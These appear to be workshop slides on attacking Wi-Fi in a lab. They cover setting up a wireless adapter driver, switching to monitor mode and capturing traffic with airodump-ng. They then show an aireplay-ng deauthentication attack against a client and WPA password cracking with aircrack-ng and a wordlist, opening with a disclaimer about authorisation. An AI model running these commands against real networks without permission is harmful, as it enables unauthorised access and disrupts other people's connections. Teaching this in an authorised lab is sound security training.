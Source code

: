 # Wi\-Fi Hacking Workshop

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

sudo apt\-get update

sudo apt\-get install linux\-headers\-$\(uname \-r\)

git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

cd rtl8812au

make

sudo insmod 8812au\.ko

sudo cp 8812au\.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless

sudo depmod

sudo apt\-get install build\-essential dkms

sudo make dkms\_install

echo 8192eu | sudo tee \-a /etc/modules

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

Check for conflicting processes

Start the wireless adapter in monitor mode

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

![](img/WifiHackingWorkshop4.png)

<span style="color:#000000">s</span>  <span style="color:#000000">udo airodump\-ng \-c 11 wlan0</span>

### Discovering devices

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

sudo airodump\-ng \-c 11 \-\-bssid B0\-95\-75\-5C\-3B\-94 \-w psk wlan0

sudo aireplay\-ng \-0 10 \-a B0:95:75:5C:3B:94 \-c 0C:8D:CA:A6:93:8D wlan0

![](img/WifiHackingWorkshop6.png)

### Cracking Password

aircrack\-ng \-w passwordlist\.txt psk\-02\.cap

![](img/WifiHackingWorkshop7.png)

